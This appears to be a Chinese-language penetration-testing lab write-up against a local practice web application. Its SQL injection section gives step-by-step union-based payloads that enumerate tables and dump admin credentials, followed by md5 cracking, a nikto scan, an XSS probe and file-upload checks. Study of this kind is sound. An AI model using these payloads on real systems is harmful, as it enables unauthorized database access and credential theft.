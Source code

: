# sql注入
- 当输入一个`'`后页面无回显，说明执行了sql查询语句

  ![](./img/test.png)
- 发现通过构造`url`可以实现数据库的查询，接下来判断它的字段数
  ```sql
  1' and 1=1 order by 2 --+
  1' and 1=1 order by 3 --+
  1' and 1=1 order by 4 --+
  1' and 1=1 order by 5 --+
  ```
- 当输入到了`5`以后，页面没有正常显示查询结果，所以有`4`个字段
  
  ![](./img/order5.png)
- 接下来直接查看回显点
  ```sql
  1' union select 1,2,3,4 --+
  ```
  ![](./img/union.png)
- 查看所有表名，可以看到有三个表名分别为`admin,comment,users`
  ```sql
  1' and 1=2 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database() --+
  ```
  ![](./img/name.png)
- 接下来查看`admin`表的所有字段，可以看到有三个字段分别为 `admin_id,admin_name,admin_pass`
  ```sql
  1' and 1=2 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='admin' --+
  ```
  ![](./img/adminname.png)
- 然后查看字段内容，`admin_pass`应该为管理员密码
  ```sql
  1' union select 1,group_concat(admin_id,0x3a,admin_name,0x3a,admin_pass),3,4 from project.admin--+
  ```
  ![](./img/pass.png)
- 看到这串字符怀疑是`md5`加密，解密得到密码
  
  ![](./img/md5.png)
- `admin/adminpwd`尝试登录管理员用户，但是失败了
  >此时路径为`project/user/login.php`

  ![](./img/adfail.png)
- 使用后台扫描工具进行扫描`nikto -host http://127.0.0.1/project/`
- 发现其他登录路径为`/project/admin/login.php`
  
  ![](./img/admin.png)
- 与原有登录页面相同，尝试`admin/adminpwd`登录管理员用户

# XSS漏洞
- 看到搜索框。联想到js代码注入
- 测试语句为`<script>alert(123)</script>`
- 没有弹窗，说明没有xss漏洞
  
  ![](./img/xss.png)
# 文件上传漏洞
- 登录之前注册的一个测试账号，点击编辑发现可以上传图像
- 查看源代码，可以看到图片的存储路径
  
  ![](./img/edit.png)
- 将存储路径的`url`直接输入，可以看到原图片
  
  ![](./img/default.png)
- 如果上传`php`文件（木马等），可以直接访问
  
  ![](./img/php.png)
- 尝试上传`php`等类型文件，失败，提示上传`jpg`格式文件
  
  ![](./img/jpg.png)

# 权限跨越漏洞
- 尝试登录`admin`权限，登陆页面试了万能密码和`admin/admin`都登陆失败(此时路径为`/project/user/login.php`)
- 使用后台扫描工具进行扫描`nikto -host http://127.0.0.1/project/`
- 发现其他登录路径为`/project/admin/login.php`
  
  ![](./img/admin.png)
- 与原有登录页面相同，但尝试了`admin`和万能密码还是无法登录
  
  ![](./img/adlogin.png)
